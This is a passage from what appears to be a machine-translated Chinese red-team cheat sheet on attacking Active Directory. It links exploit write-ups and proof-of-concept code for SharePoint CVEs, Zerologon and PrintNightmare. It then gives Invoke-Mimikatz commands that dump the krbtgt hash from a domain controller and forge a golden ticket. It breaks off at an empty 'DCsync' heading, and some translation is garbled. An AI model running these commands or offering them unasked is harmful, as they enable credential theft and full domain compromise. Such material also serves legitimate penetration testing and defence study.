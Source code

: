 详细文章:

*   [Kerberos 金券现在更加金色了](https://adsecurity.org/?p=1640)
*   [攻击域信任的指南](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)

# 利用 SharePoint

*   [CVE-2019–0604](https://medium.com/@gorkemkaradeniz/sharepoint-cve-2019-0604-rce-exploitation-ab3056623b7d)RCE 开采
    T21【PoC】
*   [CVE-2019–1257](https://www.zerodayinitiative.com/blog/2019/9/18/cve-2019-1257-code-execution-on-microsoft-sharepoint-through-bdc-deserialization)通过 BDC 反序列化执行代码
*   [CVE-2020–0932](https://www.zerodayinitiative.com/blog/2020/4/28/cve-2020-0932-remote-code-execution-on-microsoft-sharepoint-using-typeconverters)RCE 使用类型转换器
    [概念验证](https://github.com/thezdi/PoC/tree/master/CVE-2020-0932)

# Zerologon

*   [Zerologon:未经认证的域控制器危害](https://www.secura.com/whitepapers/zerologon-whitepaper):漏洞白皮书。
*   [sharp zero logon](https://github.com/nccgroup/nccfsas/tree/main/Tools/SharpZeroLogon):zero logon 漏洞利用的 C#实现。
*   [Invoke-zero logon](https://github.com/BC-SECURITY/Invoke-ZeroLogon):zero logon 漏洞利用的 Powershell 实现。
*   使用 impacket 库的 Zerologon 漏洞利用的 Python 实现。

# 印刷噩梦

*   [CVE-2021–34527](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34527):漏洞详情。
*   [PrintNightmare 的 impacket 实现](https://github.com/cube0x0/CVE-2021-1675):使用 Impacket 库的 print nightmare 的可靠 PoC。
*   [CVE-2021–1675](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare)的 C#实现:用 C#写的 PrintNightmare 的可靠 PoC。

# 领域持久性

# 金票攻击

```
#Execute mimikatz on DC as DA to grab krbtgt hash:
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>#On any machine:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:
<HashOfkrbtgtAccount>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

# DCsync 攻击
